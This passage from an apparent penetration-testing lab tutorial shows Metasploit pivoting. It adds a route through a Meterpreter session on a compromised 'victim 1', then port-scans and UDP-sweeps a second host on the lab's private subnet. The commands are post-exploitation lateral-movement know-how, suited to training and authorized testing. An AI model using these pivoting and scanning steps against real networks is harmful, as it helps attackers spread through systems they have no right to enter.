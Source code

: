 ```
eth0    192.86.140.3
eth1    192.113.124.2
```

As part of the way this particular lab is set up, we know that the victim 2 IP address is under eth1 subnet. And all we need to do is just change this from a 2 to a 3, and that's the IP address of victim 2.

Now that we've established or identified the IP address and the subnet of this particular private network, we can add the route within Meterpreter.

We then need to provide the subnet. And we don't need to provide the subnet range. We're just providing the IP address of one of the systems on the private network. And then through that, we'll be able to perform a scan on victim 2.

That's going to add the route for us automatically.

```
meterpreter > run autoroute -s 192.113.124.2
meterpreter > background
```

```
sessions
search portscan
use 5
set RHOSTS 192.113.124.3
```

Because we already have the route added, we are now performing the port scan through the first system we exploited, also known as victim-1.

```
show options
run
```

As you can see, we can now begin to start exploiting the other system on the network. And this is where the port scanner auxiliary modules come into play.

I've taken you through the process of how to do this or how to essentially set up a pivot point, so that you can scan other computers on an internal network once you've gained access to one of the computers on the network.

Let's take a look at the UDP module that we can use to scan for UDP ports. Let's perform a UDP scan on the first target.

```
back
search udp_sweep
use auxiliary/scanner/discovery/udp_sweep
show options
set RHOSTS 192.86.140.3
```

You can do this through the pivot point, or through the system that you've exploited once you've added a route.
